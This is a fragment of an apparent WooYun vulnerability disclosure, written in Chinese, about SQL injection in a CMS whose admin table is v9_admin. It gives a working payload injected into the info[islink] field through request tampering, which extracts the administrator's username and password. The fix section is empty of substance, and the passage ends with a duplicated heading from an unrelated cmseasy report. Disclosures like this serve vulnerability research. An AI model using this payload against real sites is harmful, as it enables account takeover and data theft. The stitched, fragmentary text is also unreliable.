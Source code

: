 # 漏洞最终利用 Exp

在缩略图栏填入：[`**.**.**.**/sql.jpg`](http://**.**.**.**/sql.jpg)'

点击提交，采用 Tamper data 抓包修改，将 info[islink]修改为

```
,title=(select concat(username,password) from v9_admin where userid=1) -- felixk3y 
```

点击确定，再点编辑 即可读取管理员账号 密码，如图

![](img/11110022c07aae832a18e6b752fab09bc3f34a0e.jpg)

## 漏洞证明

![](img/11110022c07aae832a18e6b752fab09bc3f34a0e.jpg)

## 修复方案

必须给力啊.

# WooYun-2014-53198：cmseasy 绕过补丁 SQL 注入一枚

# WooYun-2014-53198：cmseasy 绕过补丁 SQL 注入一枚

